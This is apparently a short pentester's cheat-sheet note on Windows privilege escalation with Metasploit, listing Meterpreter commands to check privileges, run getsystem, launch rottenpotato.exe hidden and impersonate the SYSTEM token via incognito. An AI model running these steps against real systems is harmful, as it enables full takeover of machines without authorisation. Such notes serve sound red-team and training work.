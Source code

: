 # Metasploit

## 01 - Detect

### 1.1 - Post Module

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

### 1.2 - Interactive Shell

```
meterpreter > getuid

meterpreter > getprivs
```

## 02 - Exploit

### 2.1 - Getsystem

```
meterpreter > getsystem -t 5
```

### 2.2 - Interactive Shell

If service is not running as SYSTEM.

```
meterpreter > execute -Hcf rottenpotato.exe

meterpreter > load incognito

meterpreter > list_tokens -u

meterpreter > impersonate_token "NT AUTHORITY\System"
 ```

If service is running as Administrator.

```
meterpreter > list_tokens -u

meterpreter > impersonate_token "NT AUTHORITY\System"
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Vulnerable Software/Kernel Exploits/C2 Frameworks/Metasploit|Kernel Exploits: Metasploit Framework]]